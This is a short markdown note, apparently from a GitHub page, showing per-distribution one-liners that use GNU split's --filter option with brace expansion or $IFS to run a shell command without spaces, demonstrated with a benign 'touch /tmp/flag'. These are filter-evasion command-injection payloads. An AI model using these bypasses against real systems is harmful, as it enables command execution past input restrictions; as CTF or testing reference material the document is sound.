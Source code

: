 ## archlinux (split 8.28)
Allows for `{,}` format:
```
split --filter='{touch,/tmp/flag}' /proc/self/status
```

## debian (split 8.26)
Allows for `$IFS`, but not `{,}` format:
```
split --filter='touch$IFS/tmp/flag' /proc/self/status
```

## ubuntu (split 8.25)
Allows for `$IFS`, but not `{,}` format:
```
split --filter='touch$IFS/tmp/flag' /proc/self/status
```
